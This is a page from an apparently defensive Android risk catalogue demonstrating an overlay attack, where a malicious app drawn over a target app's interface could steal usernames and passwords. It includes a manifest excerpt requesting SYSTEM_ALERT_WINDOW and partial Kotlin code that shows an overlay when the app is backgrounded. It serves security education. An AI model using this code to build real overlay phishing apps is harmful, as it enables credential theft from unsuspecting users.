

## android-platform-feature-04-risk-01

### Title

Drawing over its user interface with a malicious application

### Description

Because the Android platform provides overlay feature, your application is at risk of an attacker drawing over its user interface with a malicious application.

### Goal

As a result, this could lead to **_Credential access_** - attackers stealing usernames & passwords.

### Demonstration

#### 01. Prepare the environment

Set up the required environment with:

* An emulated Google Pixel 6 running Android 12 (api level 31)

#### 02. Create a malicious application

Create a malicious application by adding the android.permission.SYSTEM_ALERT_WINDOW permission to the manifest and implementing logic to invoke windowManager.addView() (e.g., within showOverlay()) to display an overlay when the malicious application runs in the background

*Code excerpt from the screenshot (partial):*

```xml
<uses-permission
    android:name="android.permission.WAKE_LOCK" />
<!-- An intervening permission is cut off at the right edge of the screenshot. -->
<uses-permission
    android:name="com.google.android.c2dm.permission.RECEIVE" />
<uses-permission
    android:name="android.permission.SYSTEM_ALERT_WINDOW" />
<application
    android:allowBackup="true"
    android:appComponentFactory="androidx.core.app.CoreComponentFactory"
    android:icon="@mipmap/app_icon"
```

*Code excerpt from the screenshot (partial):*

```kotlin
private fun checkIfAppInBackground() {
    val isInBackground = isAppInBackground()

    if (isInBackground && !isOverlayShowing) {
        // App is in background, show overlay
        Log.d(TAG, "App backgrounded - showing overlay")
        showOverlay()
    } else if (!isInBackground && isOverlayShowing) {
        // App is back in foreground, hide overlay
        Log.d(TAG, "App in foreground - hiding overlay")
        hideOverlay()
    }
}

private fun isAppInBackground(): Boolean {
    val activityManager = getSystemService(Context.ACTIVITY_SERVICE) as ActivityManager
    val runningProcesses = activityManager.runningAppProcesses ?: return false

    for (processInfo in runningProcesses) {
        if (processInfo.importance == ActivityManager.RunningAppProcessInfo.IMPORTANCE_FOREGROUND) {
            for (activeProcess in processInfo.pkgList) {
                if (activeProcess == packageName) {
                    // Our app is in foreground
                    return false
                }
```

*Code excerpt from the screenshot (partial):*

```kotlin
private fun showOverlay() {
    try {
        if (overlayView != null) return // Already showing

        Log.d(TAG, "Creating overlay view...")

        val inflater = getSystemService(LAYOUT_INFLATER_SERVICE) as LayoutInflater
        overlayView = inflater.inflate(R.layout.overlay_layout, null)

        val layoutType = if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
            WindowManager.LayoutParams.TYPE_APPLICATION_OVERLAY
        } else {
            WindowManager.LayoutParams.TYPE_PHONE
        }

        val params = WindowManager.LayoutParams(
            WindowManager.LayoutParams.MATCH_PARENT,
            WindowManager.LayoutParams.WRAP_CONTENT,
            layoutType,
            WindowManager.LayoutParams.FLAG_NOT_FOCUSABLE,
            PixelFormat.TRANSLUCENT
        )

        params.gravity = Gravity.CENTER

        windowManager?.addView(overlayView, params)
        isOverlayShowing = true
```

#### 03. Install the malicious application

Install the malicious application on the device, perform the steps listed in [android-platform-feature-04](android-platform-feature-04.md), and then launch the application



*Screenshot shows an overlay displayed above the target application's interface.*
